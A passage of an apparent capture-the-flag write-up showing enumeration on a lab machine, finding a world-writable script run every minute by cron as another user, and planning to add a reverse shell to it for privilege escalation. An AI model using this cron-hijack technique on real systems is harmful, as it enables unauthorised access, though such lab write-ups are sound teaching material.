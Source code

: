   ```
  
  www-data@ubuntu:/home/archangel$ cat secret/
  cat: secret/: Permission denied
  ```
  
- OK, so we will need to escalate 2 times here, first to `archangel` then to `root`. I checked `myfiles` and you wont believe what I found there.

  ```
  www-data@ubuntu:/home/archangel$ cd myfiles/
  www-data@ubuntu:/home/archangel/myfiles$ ls -al
  total 12
  drwxr-xr-x 2 archangel archangel 4096 Nov 18  2020 .
  drwxr-xr-x 6 archangel archangel 4096 Nov 20  2020 ..
  -rw-r--r-- 1 root      root        44 Nov 18  2020 passwordbacku
  
  www-data@ubuntu:/home/archangel/myfiles$ cat passwordbackup 
  https://www.youtube.com/watch?v=dQw4w9WgXcQ
  ```
  
- CLASSIC AGAIN LEGOOOOOOOOOOOOO !!! ❤️ After checking cronjobs I found the way to `archangel`.

  ```
  www-data@ubuntu:/home/archangel$ cat /etc/crontab
  # /etc/crontab: system-wide crontab
  # Unlike any other crontab you don't have to run the `crontab'
  # command to install the new version when you edit this file
  # and files in /etc/cron.d. These files also have username fields,
  # that none of the other crontabs do.
  
  SHELL=/bin/sh
  PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
  
  # m h dom mon dow user  command
  */1 *   * * *   archangel /opt/helloworld.sh
  17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
  25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
  47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
  52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
  #
  www-data@ubuntu:/home/archangel$ cat /opt/helloworld.sh 
  #!/bin/bash
  echo "hello world" >> /opt/backupfiles/helloworld.txt
  
  www-data@ubuntu:/home/archangel$ ls -al /opt/helloworld.sh 
  -rwxrwxrwx 1 archangel archangel 66 Nov 20  2020 /opt/helloworld.sh
  ```

- Perfect, it's a basic script that adds `hello world` to backupfiles, since we can read/write/execute the script let's add another reverse shell there.
